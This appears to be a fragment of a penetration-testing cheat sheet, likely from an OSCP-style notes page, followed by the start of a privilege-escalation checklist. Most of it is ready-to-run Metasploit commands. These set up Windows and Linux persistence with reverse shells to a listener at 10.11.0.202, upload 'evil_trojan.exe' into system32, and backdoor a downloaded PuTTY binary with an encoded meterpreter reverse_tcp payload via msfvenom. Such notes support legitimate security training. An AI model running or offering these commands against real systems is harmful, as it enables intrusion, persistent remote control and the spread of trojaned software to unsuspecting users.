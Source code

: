 execute -f cmd.exe -i -H

#### Persistance for windows

run persistence -U -i 5 -p 443 -r 10.11.0.202

run persistence -U -i 5 -p 666 -r 10.11.0.202

set  LPORT 443

exploit

persistance for linux

use exploit/linux/local/cron_persistence

set session 1

set payload cmd/unix/reverse_perl

set LHOST 10.11.0.202

set LPORT 444

run


#### download

meterpreter >  download c:\\boot.ini

#### upload

meterpreter > upload evil_trojan.exe c:\\windows\\system32

#### backdoor a file:

wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe


----------------------------------------------------------------------------
'''''''''''''''''''''''''''''''''' PRIVESC '''''''''''''''''''''''''''''''''
-----------------------------------------------------------------------------


## Privilege escalation

Now we start the whole enumeration-process over gain. This is a checklist. You need to check of every single one, in this order.

### Basic info

- Kernel exploits
- Cleartext password
- Reconfigure service parameters
- Inside service
- Program running as root
- Installed software
- Scheduled tasks
- Weak passwords
- OS:
- Version:
- Architecture:
- Current user:
- Hotfixes:
- Antivirus:
